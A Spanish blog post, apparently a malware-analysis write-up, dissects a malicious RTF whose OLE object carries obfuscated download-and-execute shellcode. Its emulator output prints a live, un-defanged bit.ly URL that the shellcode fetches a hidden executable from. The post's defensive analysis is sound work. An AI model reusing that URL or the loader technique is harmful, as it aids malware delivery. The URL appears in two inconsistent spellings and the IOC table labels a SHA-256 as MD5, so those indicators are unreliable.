





+++
date = "2025-08-30"
title = "Análisis de Malware: Documento RTF y Shellcode"
description = "Desglose técnico de un documento RTF malicioso que aprovecha una vulnerabilidad OLE para inyectar y ejecutar shellcode. Incluye análisis estático, emulación y reversing."
[taxonomies] 
tags = ["Análisis de Malware"]
[extra]
image = "banner.jpg"
+++

La muestra sospechosa bajo análisis es un **documento RTF** diseñado para incrustar y ejecutar objetos OLE maliciosos. Al igual que con cualquier malware basado en documentos, el primer paso es calcular sus hashes y recopilar metadatos para su identificación.

| Campo | Valor |
| --- | --- |
| **Tipo de Archivo** | Documento RTF |
| **MD5** | 2fd300bd01ea3d00ea59d4e1d47056a0 |
| **SHA-1** | d8747407679055deee5bafaac281bdac52274da2 |
| **SHA-256** | 2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762 |
| **Tamaño de Archivo** | 1.02 MB (1065166 bytes) |

Una vez enviada a **VirusTotal**, la muestra mostró una alta tasa de detección, marcada por múltiples motores antivirus por contener un exploit OLE incrustado.


La inspección estática confirmó que el RTF contenía al menos un **objeto OLE sospechoso**. Esto sugirió que el exploit probablemente dependería de una shellcode incrustada entregada a través de flujos (streams) OLE.

### Extracción del Objeto OLE

Usamos **rtfobj.py** para escanear el documento RTF malicioso y extraer cualquier flujo OLE incrustado: 

```cmd
C:\Users\vboxuser\Desktop>python "C:\Users\vboxuser\Desktop\Tools\Documents
oletools-0.60.2\oletools\rtfobj.py" 
"C:\Users\vboxuser\Desktop\Master\Tarea3
2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762.rtf" 
-s 0 -d C:\Users\vboxuser\Desktop\Master\Tarea3
````

La salida reveló un objeto OLE malformado en el desplazamiento (offset) `0x000FC3E7`, que se extrajo como:

```
...rtf_object_000FC3E7.raw (md5: 2fe51e42ac2a4a52d1855e21620e9c6f)
```



En una revisión en **VirusTotal**, la muestra mostró una alta tasa de detección, marcada por múltiples motores antivirus por contener un exploit para un CVE de 2017.



Los detalles son los siguientes:

|**Campo**|**Valor**|
|---|---|
|**Tipo de Archivo**|Datos (Data)|
|**MD5**|2fe51e42ac2a4a52d1855e21620e9c6f|
|**SHA-1**|af8eda0e5881952b5828d143de1bd45ced8f8717|
|**SHA-256**|280a7cce75f5ee71a2ff025efdc059a7d85a4de13292aa342f71e186876a93fb|
|**Tamaño de Archivo**|1.34 KB (1372 bytes)|

## Análisis de la Shellcode con `scdbg`

El objeto OLE extraído contenía shellcode incrustada. Para comprender mejor su comportamiento, emulamos el payload usando **scdbg**.

La ejecución comenzó en el offset `0x7C` (VA `0x40107C`) con las siguientes instrucciones:

```
40107C   42      inc edx
40107D   19F9    sbb ecx,edi
40107F   0BE1    or esp,ecx
401081   F8      clc
401082   793B    jns 0x4010BF
```

Esta secuencia reorganiza los registros en preparación para la desofuscación.

Durante la ejecución, la shellcode resolvió dinámicamente varias APIs de Windows, una táctica común para evadir la detección estática. Se observaron las siguientes llamadas:

- `GetProcAddress(ExpandEnvironmentStringsW)`
    
- `ExpandEnvironmentStringsW(%PUBLIC%\908.exe, dst=12fbd0, sz=104)`
    
- `LoadLibraryW("UrlMon")`
    
- `GetProcAddress(URLDownloadToFileW)`
    
- `URLDownloadToFileW("http://bit.ly/34vzFlU", "C:\Users\Public\908.exe")`
    
- `LoadLibraryW("oleaut32")` y `GetProcAddress(SysAllocString)`




Esto confirma la funcionalidad de la shellcode: construye una ruta de destino en `%PUBLIC%`, descarga un ejecutable remoto desde una URL acortada y lo prepara para su ejecución.

## Ingeniería Inversa de la Shellcode

Para profundizar en el análisis, realizamos ingeniería inversa manual a la shellcode para comprender mejor su estructura y técnicas. Como era de esperar, el código sigue el patrón típico de la mayoría de las shellcodes de tipo "descargar y ejecutar" (download-and-execute), pero con algunos trucos para dificultar el análisis: es independiente de la posición y está rellenado con instrucciones basura (junk code).

Al cargarlo en **IDA**, algunas secciones fueron malinterpretadas como código o datos. Para solucionar esto, tuvimos que redefinir manualmente ciertas áreas, avanzar la ejecución instrucción por instrucción y establecer puntos de interrupción (breakpoints) hasta que el flujo quedó claro.

La shellcode se puede dividir en tres secciones principales:

1. **Relleno de basura (Garbage padding)** (`0x0000–0x007B` y `0x010E–0x02BB`)
    
    Bytes aleatorios, `int 3`, `hlt`, y varias instrucciones `db`/`dw` que IDA no logró desensamblar correctamente. Estas no se ejecutan si el **EIP** aterriza correctamente.
    
2. **Basura ejecutable y salto (Executable junk & jump)** (`0x007C–0x0108`)
    
    Bucles de ofuscación inútiles y un `jmp 0x02BC` final que redirige la ejecución al payload real.
    
3. **Payload** (`0x02BC–0x0558`)
    
    La verdadera lógica maliciosa: configuración de la pila (stack), resolución manual de APIs, descarga de un ejecutable y su lanzamiento en segundo plano.

    

Una vez reconstruido el flujo, vimos a la shellcode recorrer el **PEB (`fs:[30h]`)** para localizar `kernel32.dll`. A partir de ahí, invocó una implementación personalizada de `GetProcAddress` para resolver sus APIs:

```
LoadLibraryW
ExpandEnvironmentStringsW
UrlDownloadToFileW
WinExec
ExitProcess
```



La función responsable de las comparaciones de cadenas (`sub_498`) realizaba una coincidencia insensible a mayúsculas y minúsculas en caracteres anchos (wide-char), convirtiendo los caracteres sobre la marcha con un simple `xor ax, 0x20` siempre que el carácter estuviera entre `'A'` y `'Z'`. Esto permitió a la shellcode resolver nombres de funciones de manera confiable sin depender de las mayúsculas o minúsculas exactas.

Una vez completada la resolución de la API, la ejecución pasó a la **fase de descarga**. Primero, la ruta de destino se construyó usando `ExpandEnvironmentStringsW` como `%PUBLIC%\908.exe`. A continuación, la URL (`hxxp://bit.ly/34vzFU`) fue empujada a la pila en forma fragmentada, oculta a través de múltiples instrucciones `push`. Finalmente, la shellcode invocó `UrlDownloadToFileW(NULL, url, destino, 0, NULL)` para obtener el binario, procediendo solo si la llamada devolvía `S_OK`.

Si la descarga tenía éxito, comenzaba la **fase de ejecución**: el binario se iniciaba silenciosamente con `WinExec(destino, SW_HIDE)`, y la shellcode terminaba inmediatamente el proceso actual con `ExitProcess(0)`.

En general, más de la mitad de la shellcode resultó ser relleno y ofuscación, mientras que la funcionalidad real residía en un cargador (loader) compacto independiente de la posición. Su papel era simple pero efectivo: resolver APIs dinámicamente, construir la ruta de destino, descargar un ejecutable remoto y ejecutarlo silenciosamente antes de salir. Al establecer el puntero de instrucción (instruction pointer) directamente en `0x02BC`, los analistas pueden saltarse todo el código basura y observar el payload central en acción. La principal dificultad durante el reversing fue corregir las malas interpretaciones de IDA causadas por la intercalación de instrucciones basura y datos, lo que requirió ajustes manuales para seguir con precisión el flujo de control.

## Indicadores de Compromiso (IOCs)

Los siguientes IOCs se extrajeron de la muestra de malware RTF:

|**Tipo**|**Valor**|
|---|---|
|**MD5 (RTF)**|`2b5511fa177b5528e8d8f97516dcd9854284cf59b0e78d498b1ac7c3b2ef7762`|
|**MD5 Objeto OLE**|`2fe51e42ac2a4a52d1855e21620e9c6f`|
|**Archivo Soltado (Dropped)**|`%PUBLIC%\908.exe`|
|**URL Maliciosa**|`hxxp://bit.ly/34vzFU`|